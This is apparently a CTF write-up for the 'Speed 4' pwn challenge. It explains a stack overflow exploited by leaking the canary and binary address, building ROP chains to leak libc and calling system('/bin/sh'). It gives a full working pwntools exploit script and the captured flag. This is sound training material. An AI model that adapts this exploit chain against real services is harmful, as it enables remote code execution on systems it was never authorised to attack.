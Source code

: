 # Speed 4

## Challenge

We're given a binary with full mitigations.

The binary will continuously read up to 0x200 characters into a 0x48 byte buffer until it encounters an emptry string.
The binary does not append a null-byte at the end of the input.

After each read, the binary will print the input back.

## Solution

There is a buffer overflow, as the program reads far more characters than the buffer can safely store.
Because the read does not append a null-byte, we can leak the canary by writing enough characters such that our input is adjacent to the canary in memory.
This will cause the canary to be printed at the end of our input string.

We can use the same technique as above to leak the binary address by printing the return address at the end of our input.

With a canary and binary address leak, we can use a ropchain to leak the libc address by printing a GOT entry.
We then return to the vulnerable code for a second ropchain.

The second ropchain uses the libc address to call `system("/bin/sh")` and spawn a shell, allowing us to read the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host speed-04.hfsc.tf --port 34500 speed4
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('speed4')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'speed-04.hfsc.tf'
port = int(args.PORT or 34500)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

libc = ELF('libc6_2.31-0ubuntu9.7_amd64.so')

io = start()

padding = b'a' * (0x50 - 0x8 + 1)
io.sendafter(b"b0f: ", padding + b'\x0d')
io.recvuntil(padding)

canary = unpack((b'\x00' + io.recvuntil(b"\n", drop=True)).ljust(8, b'\x00'))
io.info("CANARY: " + hex(canary))

padding = b'a' * (0x50 + 0x8)
io.sendafter(b"b0f: ", padding + b'\x0d')
io.recvuntil(padding)

exe.address = unpack(io.recvuntil(b"\n", drop=True).ljust(8, b'\x00')) - 0x1380
io.info("EXE: " + hex(exe.address))

rop = ROP(exe)
rop.call(exe.plt['puts'], [exe.got['puts']])
rop.raw(rop.ret)
rop.call(exe.address + 0x00001454)

io.info(rop.dump())

payload = flat({
    0x50 - 0x8: canary,
    0x50: exe.address + 0x4e00,
    0x50 + 0x8: rop.chain(),
    })

io.sendafter(b"b0f: ", payload + b'\x0d')

io.sendafter(b"b0f: ", b'\x0d')

libc.address = unpack(io.recvuntil(b"\n", drop=True).ljust(8, b'\x00')) - libc.sym['puts']
io.info("LIBC: " + hex(libc.address))

rop = ROP(libc)
rop.raw(rop.ret)
rop.call(libc.sym['system'], [next(libc.search(b"/bin/sh"))])

io.info(rop.dump())

payload = flat({
    0x50 - 0x8: canary,
    0x50: exe.address + 0x4700,
    0x50 + 0x8: rop.chain(),
    })

io.sendafter(b"b0f: ", payload + b'\x0d')

io.sendafter(b"b0f: ", b'\x0d')

io.interactive()
```

## Flag

```
midnight{79f600fc12e44da3beb82e4fc31d270b}
```

